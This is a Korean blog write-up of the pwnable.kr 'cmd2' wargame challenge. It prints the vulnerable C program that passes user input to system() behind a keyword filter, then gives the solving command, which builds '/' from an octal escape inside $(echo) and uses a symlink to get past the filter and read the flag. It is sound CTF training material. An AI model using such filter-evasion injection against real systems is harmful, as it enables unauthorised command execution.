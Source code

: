```yaml
---
title: Pwnable KR - cmd2
slug: pwnable-kr-cmd2
date: 2016-04-25 19:39:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


## 문제

![Pwnable KR cmd2](pwnablr-kr-cmd2.png)

9점 문제.

cmd2.c의 내용은 아래와 같다.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "=")!=0;
    r += strstr(cmd, "PATH")!=0;
    r += strstr(cmd, "export")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, "`")!=0;
    r += strstr(cmd, "flag")!=0;
    return r;
}

extern char** environ;
void delete_env(){
    char** p;
    for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
    delete_env();
    putenv("PATH=/no_command_execution_until_you_become_a_hacker");
    if(filter(argv[1])) return 0;
    printf("%s\n", argv[1]);
    system( argv[1] );
    return 0;
}
```

/만 쓸 수 있으면 풀 수 있을 것 같다.
그렇다면 어떻게 필터링을 피할 수 있을까?

## 풀이

```console
$ echo /
/
$ $(echo /)
-bash: /: Is a directory
```

위와 같은 쉘 스크립트의 특성을 활용해보자

$(echo /)bin$(echo /)cat flag

/bin/cat flag를 표현해봤다. 위처럼 그대로 넣으면 안되고,
아래처럼 좀 수정해서 넣어줘야 한다.

./cmd '$(echo "\57")bin$(echo "\57")cat flag'

/ 문자는 8진수 아스키 코드로 57이고, "로 감싸야 한다.
변형 없이 그대로 전달해야하므로 인자 전체는 '로 감싸야 한다.

마지막으로 flag만 필터를 피하면 되는데,
이건 cmd1 풀 때처럼 심볼릭 링크를 쓰면 된다.

아래는 풀이

```sh
mkdir /tmp/cmd2k
cd /tmp/cmd2k
ln -s /home/cmd2/cmd2 cmd2
ln -s /home/cmd2/flag f
./cmd2 '$(echo "\57")bin$(echo "\57")cat f'
```

아이 신나
